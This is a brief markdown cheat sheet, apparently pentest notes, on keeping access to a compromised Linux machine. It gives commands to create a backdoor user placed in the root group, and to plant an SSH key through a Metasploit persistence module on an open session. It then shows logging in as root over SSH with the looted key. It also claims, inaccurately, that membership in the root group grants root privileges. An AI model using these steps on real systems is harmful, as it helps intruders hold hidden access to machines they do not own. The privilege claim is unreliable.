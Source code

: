 # Establishing Persistence on a Linux Target
#### METHOD 1 : CREATING A NEW USER
By creating a new user and adding them to the ROOT group. We can later login as this user with ROOT privileges.

```
useradd -m "NEW USER" -s /bin/bash 
passwd "NEW USER"

#Add new user to ROOT group
usermod -aG root "NEW USER"
```

#### METHOD 2 : ADDING SSH KEY 
This module will add an Public SSH key to a specified user (or all), and gets us a private SSH key to allow remote login via SSH at any time.

```
use post/linux/manage/sshkey_persistence
set SESSION 6
set CREATESSHFOLDER true
exploit
```

Now we can copy the contents from the `loot` and create a new key file and give appropriate permissions. 

```
vim ssh_key
chmod 0400 ssh_key
ssh -i ssh_key root@192.50.177.3
```
